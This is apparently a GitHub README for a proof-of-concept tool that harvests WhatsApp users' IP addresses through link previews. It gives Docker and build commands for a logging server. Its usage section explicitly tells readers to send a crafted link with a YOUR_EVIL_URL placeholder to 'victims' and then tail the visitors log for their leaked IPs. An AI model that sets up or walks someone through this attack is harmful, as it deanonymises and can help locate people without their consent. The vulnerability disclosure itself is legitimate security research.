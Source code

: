 ## WhatsApp user’s IP disclosure with Link Preview

#### Synopsis

As you know modern messengers have many features besides their main function — texting.
They are able to play/record music/videos, send photos/geolocation and so on.

So they are also capable to generate link previews.
Best practice is to generate preview by external proxy server which will fetch content for you. 

However WhatsApp developers decided to rely on internal web engine that comes with OS.

It's not needed to explain that now WhatsApp will leak your IP address on every received link **AND** also you will leak your IP in link preview mode.  

---
**NOTE: You will need VPS with static IP and domain.**

#### Quickstart - Docker

1. `sudo docker pull unstab1e/whatsipp`
2. `sudo docker run --rm -it -p 80:8080 unstab1e/whatsipp`

#### Setup - Classic way

1. Get the repo by `go get` or `git clone` this repo:
`$ go get https://github.com/moldabekov/whatsipp`
`$ git clone https://github.com/moldabekov/whatsipp`

2. Build binary:
`$ make build`

3. Run it:
`$ sudo W_LEAK_PORT=80 ./main`

#### Setup - Docker from scratch

1. Get the repo by `go get` or `git clone` this repo:
`$ go get https://github.com/moldabekov/whatsipp`
`$ git clone https://github.com/moldabekov/whatsipp`

2. Run container (docker may require root priviledges):
`$ make docker`

#### Usage

To test PoC on yourself:
1. Open WhatApp client and type your URL (*e.g. https://domain.com/leak*)
1. Check logs to see your leaked IP 

To leak other people IP addresses: 
1. Send this link to your victims: https://api.whatsapp.com/send?phone=+**PHONE_NUMBER**&text=http%3A%2F%2F**YOUR_EVIL_URL**

* In separate tab watch IP leaks:
`$ tail -f visitors.log`

#### Screenshots

![WhatsAppPreview](https://user-images.githubusercontent.com/669547/39394182-9232f4da-4af0-11e8-9108-48a16b47e163.jpg)

![visitors](https://user-images.githubusercontent.com/669547/39394174-6f01428c-4af0-11e8-9a9f-12503c95df6b.png)

#### Credits
Greets goes to *Rahul Kankrale* for figuring out.

#### License
(C) MIT License
